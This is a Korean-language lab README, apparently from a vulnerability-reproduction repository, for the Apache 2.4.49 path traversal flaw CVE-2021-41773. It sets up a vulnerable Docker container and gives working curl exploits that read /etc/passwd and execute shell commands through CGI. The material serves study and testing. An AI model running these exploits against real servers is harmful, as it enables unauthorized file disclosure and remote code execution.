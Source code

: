 # 아파치 HTTP 서버 2.4.49에서의 경로 탐색 및 파일 노출 취약점 (CVE-2021-41773)


Apache HTTP Server Project는 UNIX 및 Windows를 포함한 최신 운영 체제를 위한 오픈 소스 HTTP 서버를 개발하고 유지 관리하기 위한 노력입니다.

Apache HTTP Server 2.4.49의 경로 정규화 변경 사항에 결함이 있습니다. 공격자는 경로 순회 공격을 사용하여 URL을 예상 문서 루트 외부의 파일에 매핑할 수 있습니다.

이러한 디렉토리 외부의 파일이 일반적인 기본 구성 "require all denied"에 의해 보호되지 않으면 이러한 요청이 성공할 수 있습니다. 별칭이 있는 이러한 경로에 대해서도 CGI 스크립트를 사용하도록 설정하면 원격 코드가 실행될 수 있습니다.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 취약한 환경

다음 명령을 실행하여 취약한 Apache HTTP Server를 시작합니다:

```
docker compose build
docker compose up -d
```

서버가 시작되면 아파치 HTTP 서버의 기본 페이지인 It works!를 http://your-ip:8080에서 확인할 수 있습니다.

## Exploit

취약성을 재현하기 위한 간단한 CURL 명령('/icons/'는 기존 디렉토리여야 함):

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

'/etc/passwd'가 성공적으로 공개되었습니다:

![](1.png)

서버에서 mods cgi 또는 cgid가 활성화된 경우 이 경로 통과 취약성으로 인해 임의 명령이 실행될 수 있습니다:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)
